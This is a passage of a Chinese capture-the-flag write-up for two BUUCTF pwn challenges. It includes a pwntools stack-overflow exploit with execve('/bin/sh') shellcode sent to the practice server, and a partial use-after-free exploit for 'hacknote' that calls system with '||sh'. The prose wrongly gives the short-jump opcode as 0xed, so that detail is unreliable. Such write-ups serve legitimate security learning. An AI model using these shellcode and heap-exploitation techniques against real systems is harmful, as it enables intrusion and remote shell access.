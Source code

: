 简化之后，剩余部分的机器码长度为36字节，正好能够填充满返回地址之前的36字节。
而对于后面的9个字节，首先需要压低esp，防止shellcode被覆盖：``sub esp, 0x100;``，这条指令占6字节。还有3个字节足够我们进行一次短转移。
在asm函数中不允许使用诸如``jmp short ptr 0x40;``这样的指令，只能通过标号来写jmp指令。但是我们通过分析jmp指令的结构不难发现，<font color=red>**jmp短转移指令占2字节，第1个字节固定为0xed，第二个字节为转移偏移，即距离本条指令的偏移位置。如在0x100000处有一条jmp 0x40指令，其跳转到的地址是：0x100042，因为这里是从这条指令的后面计算偏移的，也就是以0x100002为基准计算偏移。**</font>由此我们可以计算得到转移的偏移应该为-48，转为有符号8位二进制数为0xD0。因此我们的shellcode结构就是：前36字节为shellcode；37\~40字节为返回地址（jmp esp的地址）；41\~46字节为``sub esp, 0x100;``指令；47~48字节为``jmp short ptr -48;``指令，这样可以在esp减小之后立刻开始执行shellcode。我们的49个字节使用了48个字节。

```python
from pwn import *
context(arch='i386', log_level='debug')
# io = process('./pwn')
io = remote('node4.buuoj.cn', 28012)
elf = ELF('./pwn')

shellcode = 'push 0x68;' \
            'push 0x732f2f2f;' \
            'push 0x6e69622f;' \
            'mov ebx, esp;' \
            'push 0x6873;' \
            'xor ecx, ecx;' \
            'push ecx;' \
            'push 4;' \
            'pop ecx;' \
            'add ecx, esp;' \
            'mov ecx, esp;' \
            'xor edx, edx;' \
            'push SYS_execve;' \
            'pop eax;' \
            'int 0x80;' \

payload = asm(shellcode)
payload += p32(0x8048554)
payload += asm('sub esp, 0x100;')   # 6 bytes
payload += b'\xeb\xD0'  # jmp short ptr -48
print(len(payload))
print(payload)
io.sendline(payload)
io.interactive()
```
# buu069-pwnable_hacknote
常规堆排布，没有释放指针，可以利用UAF申请到一个chunk控制头，然后改写里面的指针从而在调用print功能的时候执行其他功能。

![](https://img-blog.csdnimg.cn/58c0ca60e0c544c08be4df45ec0f43f5.png)
每一次申请都会申请上面的这个结构体和一个存放字符串的chunk。申请两个chunk大小为0x20的结构，然后释放，再申请一个chunk大小为0x8的结构就可以控制先前释放的一个结构的控制结构体（也就是上面的这个结构体）。print_func不动，把打印地址改为got表获取libc地址，然后释放重新分配，把print_func改成system地址，后面接上'||sh'来执行system('sh')。（前面的部分是system地址肯定无法执行，加||使得能够执行后面的内容）

```python
from pwn import *
from LibcSearcher import *
context(arch='i386', log_level='debug')
# io = process('./pwn')
io = remote('node4.buuoj.cn', 26342)
elf = ELF('./pwn')

def add(size, content):
    io.sendlineafter(b'Your choice :', b'1')
    io.sendlineafter(b'Note size :', str(size).encode())
    io.sendafter(b'Content :', content)

def delete(index):
    io.sendlineafter(b'Your choice :', b'2')
```